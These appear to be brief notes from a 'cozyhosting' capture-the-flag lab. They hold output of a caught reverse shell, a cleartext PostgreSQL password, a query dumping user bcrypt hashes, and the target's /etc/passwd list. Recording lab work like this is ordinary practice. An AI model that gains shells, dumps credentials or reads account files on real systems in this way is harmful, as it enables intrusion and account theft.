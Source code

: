 ```yaml
---
category: Uncategorized
tags: []
created: 2024-12-21

---
```

listening on [any] 1234 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.230] 51082

contraseña postresql Vg&nvzAQ7XxR

cozyhosting=# SELECT name,password from users;
   name    |                           password                           
-----------+--------------------------------------------------------------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm


root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
